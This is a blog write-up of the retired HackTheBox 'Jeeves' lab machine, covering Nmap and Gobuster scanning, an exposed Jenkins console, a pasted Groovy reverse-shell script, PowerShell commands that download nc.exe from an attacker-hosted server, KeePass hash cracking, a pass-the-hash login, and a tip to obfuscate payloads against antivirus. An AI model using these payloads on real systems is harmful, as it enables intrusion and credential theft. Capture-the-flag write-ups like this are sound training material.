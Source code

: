 ```yaml
---
layout: post
title: "HackTheBox - Jeeves writeup"
subtitle: "~ Walkthrough of Jeeves machine from HackTheBox ~"
date: 2018-05-23
author: V3ded
category: CTF
tags: blog ctf pentesting hackthebox
finished: true
---
```


# Introduction
Jeeves is a medium rated machine on HackTheBox platform which got retired last weekend (18.05.2018). Core of this machine revolves around pwnage of Jenkins. Let's get to it.

<img src="/img/blog/htb-jeeves/htb-jeeves-00.png">

***

# Scanning and Enumeration 
As usual, start out with **Nmap**:
```console
root@EdgeOfNight:~# nmap -sV -T4 -sS 10.10.10.63

Starting Nmap 7.60 ( https://nmap.org ) at 2018-05-22 18:24 BST
Nmap scan report for 10.10.10.63
Host is up (0.062s latency).
Not shown: 996 filtered ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.28 seconds
```

For the sake of keeping this blogpost short, I'll ignore enumeration of port 135 and 445 as they most likely aren't part of the overall solution. 

## HTTP port 80
Upon visiting the HTTP server at port 80 we are present with somewhat custom made search engine.

<img src="/img/blog/htb-jeeves/htb-jeeves-01.png">

Afterwards, I run **Gobuster** to search for any hidden content or directories, but find none. Not much one can do from here on... A dead end!

## HTTP Port 50000

<img src="/img/blog/htb-jeeves/htb-jeeves-02.png">

Same approach using **Gobuster**.
```console
root@EdgeOfNight:~# gobuster -e -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25 

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://10.10.10.63:50000/askjeeves (Status: 302)
```
Fortunately for us, `/askjeeves/` exposes an unprotected Jenkins install. 

<img src="/img/blog/htb-jeeves/htb-jeeves-03.png">

This allows us to either upload a malicious .exe file through job creation or run custom commands in the Jenkins console. I chose the latter. If you however decide to stick with job creation, make sure that the files you upload are well obfuscated so that the antivirus doesn't delete them ;). I'd definitely recommend [VeilFramework](https://github.com/Veil-Framework/Veil) for this purpose.

***

# Exploitation
Navigate to the script console (*Manage Jenkins -> Script Console*) - `http://10.10.10.63:50000/askjeeves/script`. 

<img src="/img/blog/htb-jeeves/htb-jeeves-03,5.png">

This allows us to run arbitrary GroovyScript (similar to java) commands. Doing a bit of research, I find a GroovyScript reverse shell on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

{% highlight java %}
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
{% endhighlight %}

If we rewrite the port and the host, we should be able to get a nice netcat reverse shell. 

<img src="/img/blog/htb-jeeves/htb-jeeves-04.png">

Awesome! User's hash is located at `C:\Users\kohsuke\Desktop`. Go and get it! 

***

# Privilege escalation
Unfortunately, we still need to escalate our privileges in order to capture all the flags. There are two main methods of doing so - cracking of .kdbx file and token impersonation (*rotten potato method*). Below, the first method will be described. 

## Keepas password manager
Doing a bit of roaming around the file system, I find an interesting .kdbx file. This file extension is associated with *Keepass password manager*. The mentiond .kdbx file can be found at `C:\Users\kohsuke\Documents\CEH.kdbx`. To transfer this file into our computer I first put **netcat** binary (in Kali: `/usr/share/windows-binaries/nc.exe`) onto the Windows system via Powershell:

{% highlight powershell %}
# Run inside the reverse shell: 
powershell -c '(new-object System.Net.WebClient).DownloadFile("http://IP/nc.exe", "C:\Windows\Temp\nc.exe")'
# OR
powershell -c 'Invoke-WebRequest "http://IP/nc.exe" -OutFile "C:\Windows\Temp\nc.exe"' 
{% endhighlight %}

> Note: Don't forget to start a web server before you actually try to download a file.

Thanks to **netcat**, we are able to transfer the .kdbx file into our filesystem. We can then proceed to generate a hash with **keepass2john**.
```console
root@EdgeOfNight:/tmp# keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
``` 

This hash can be then cracked with usual programs like **Hashcat** or **JohnTheRipper**.
```console
root@EdgeOfNight:/tmp# john --format="keepass" --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:01:12 DONE (2018-05-22 19:56) 0.01371g/s 754.2p/s 754.2c/s 754.2C/s moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The master password of the Keepass manager is `moonshine1`! By installing Keepass2 (*apt-get install keepass2*), we can view the .kdbx file and see all saved up passwords.
The preview looks like this:

<img src="/img/blog/htb-jeeves/htb-jeeves-05.png">

None of these passwords are actually usable apart from *Backup stuff*.  

<img src="/img/blog/htb-jeeves/htb-jeeves-06.png">

Does this look similar - `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`? Yup! It is an NTLM hash which we can use for pass the hash attack! Both Metasploit's **psexec** module or **pth-winexe** can be used. 
```console
root@EdgeOfNight:~# pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator

```

Normally I'd end the blog here as we gained root / administrator privileges. However, retrieving the root flag is a bit tricky. This is the part where most people get frustrated, because normal directory listing doesn't yield any useful results. The flag itself is hidden inside an alternate data stream. Alternate data streams can be listed with `dir /r`:

<img src="/img/blog/htb-jeeves/htb-jeeves-07.png">

and viewed with `more < hm.txt:root.txt`:

<img src="/img/blog/htb-jeeves/htb-jeeves-08.png">

***

# Conclusion
Congratulations! At this point there's nothing left - both flags have been retrieved. If you want to view alternative methods which I didn't show (such as rotten potato), I'd highly recommend Ippsec's [video](https://www.youtube.com/watch?v=EKGBskG8APc). His content is great and I often learn many new methods from his tutorials :-) ! Thanks for reading.

~V3
